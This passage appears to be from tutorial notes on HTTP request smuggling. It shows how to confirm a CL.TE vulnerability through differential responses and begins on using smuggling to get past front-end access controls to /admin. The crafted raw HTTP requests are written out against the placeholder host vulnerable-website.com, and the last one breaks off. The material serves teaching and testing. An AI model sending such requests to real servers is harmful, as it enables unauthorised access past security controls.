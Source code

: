 q=smuggling
```

The request may normally recieve HTTP status code 200 


### Confirming CL.TE vulnerabilities using differential responses

To confirm the vulnerability we could send an attack request like


```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received


```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```


## Exploiting HTTP request smuggling vulnerabilities
Using HTTP request smuggling to bypass front-end security controls

Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack: 


```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked
